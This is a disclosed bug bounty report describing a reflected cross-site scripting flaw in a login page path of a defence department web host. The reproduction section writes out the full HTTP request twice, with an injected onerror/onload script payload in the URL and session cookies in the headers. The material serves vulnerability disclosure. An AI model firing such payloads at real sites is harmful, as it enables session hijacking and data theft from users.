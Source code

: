 # Xss  Parameter: /<s>/[*]/<s>.css ████████

## Report Details
- **Report ID**: 2353131
- **URL**: https://hackerone.com/reports/2353131
- **State**: Closed
- **Severity**: medium
- **Submitted**: 2024-02-02T20:13:20.771Z
- **Disclosed**: 2024-03-22T17:44:22.194Z

## Reporter
- **Username**: chor4o
- **Name**: N/A

## Team
- **Name**: N/A
- **Handle**: deptofdefense

## Vulnerability Information
Hi teams,

Xss  Parameter: /<s>/[*]/<s>.css ████████ - Request

GET /login.php/styles<isindex%20type=image%20src=1%20onerror=chor4o(9939)>/"><BODY%20ONLOAD=alert(0x000123)>/local.css HTTP/1.1
Referer: https://███
Cookie: PHPSESSID=l7c1vrsg3dbkgsp2lturjs6kca; session=expiry=█████████; f5avraaaaaaaaaaaaaaaa_session_=DPCHLFADPAJCEMEHGHPOJHBKFGOENAGMGICMOOEBEBBAAMBIPCONEIJCEAGKJOOHAKODPBGOGKMAGOAEFOLAEJAKGNEKCIDJNPNMNCNBDOBDLCEGHGMMPGOEGEOPDMHD; BIGipServerweb-ext_pl=!EeLnWrrwaS8YcvQX1TcgTbCc8QSXMr/IS1+eEgDpVv96YCkn5MOqzqftXSRg0sMRVo16MATZlNeRUg==; nmstat=3aa48c20-a118-1d8b-744c-1042bec21eb1; _ga=GA1.2.736871804.1706875700; _gid=GA1.2.331161195.1706875701; _gat=1; _ga_LY79N0FLBS=GS1.1.1706892569.5.1.1706897365.0.0.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,*/*;q=0.8
Accept-Encoding: gzip,deflate,br
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/119.0.0.0 Safari/537.36
Host: ████
Connection: Keep-alive

███


███

## Impact

The attacker can steal data from whoever checks the report.

## System Host(s)
███████

## Affected Product(s) and Version(s)


## CVE Numbers


## Steps to Reproduce
Burp - Request

GET /login.php/styles<isindex%20type=image%20src=1%20onerror=chor4o(9939)>/"><BODY%20ONLOAD=alert(0x000123)>/local.css HTTP/1.1
Referer: https://█████████
Cookie: PHPSESSID=l7c1vrsg3dbkgsp2lturjs6kca; session=expiry=███; f5avraaaaaaaaaaaaaaaa_session_=DPCHLFADPAJCEMEHGHPOJHBKFGOENAGMGICMOOEBEBBAAMBIPCONEIJCEAGKJOOHAKODPBGOGKMAGOAEFOLAEJAKGNEKCIDJNPNMNCNBDOBDLCEGHGMMPGOEGEOPDMHD; BIGipServerweb-ext_pl=!EeLnWrrwaS8YcvQX1TcgTbCc8QSXMr/IS1+eEgDpVv96YCkn5MOqzqftXSRg0sMRVo16MATZlNeRUg==; nmstat=3aa48c20-a118-1d8b-744c-1042bec21eb1; _ga=GA1.2.736871804.1706875700; _gid=GA1.2.331161195.1706875701; _gat=1; _ga_LY79N0FLBS=GS1.1.1706892569.5.1.1706897365.0.0.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,*/*;q=0.8
Accept-Encoding: gzip,deflate,br
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/119.0.0.0 Safari/537.36
Host: ██████████
Connection: Keep-alive


████

## Suggested Mitigation/Remediation Actions




## Attachments
No attachments
